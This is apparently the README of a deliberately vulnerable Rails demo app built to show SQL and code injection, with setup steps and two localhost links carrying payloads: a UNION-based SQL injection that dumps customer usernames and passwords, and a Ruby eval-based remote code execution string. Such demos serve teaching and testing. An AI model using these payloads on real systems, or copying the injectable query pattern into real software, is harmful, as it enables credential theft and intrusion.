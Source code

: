 # README

Just a dumb test project and a super simplistic proof of concept for SQL and code injection. 
```bash
bundle install
rails db:setup
```

Then create some stuff in the db so you can play around with it
```ruby
FactoryBot.create_list :product, 20
FactoryBot.create_list, :customer, 10
```

[http://localhost:3007/products](http://localhost:3007/products)

[Example of unsafe query](http://localhost:3007/products?query=%27%29+UNION+select+customers.id%2C++customers.first_name+AS+name%2C+customers.username+AS+cost%2C+customers.password+AS+description%2C+customers.created_at%2C+customers.updated_at+FROM+customers+--&commit=Search)

[Remote code exec that breaks the app](http://localhost:3007/products?query=&attribute=id%3B%20Object.class_eval%7B%20eval%28%27undef%20method%27%29%7D&unsafe_mode=1&commit=Unsafe+search)
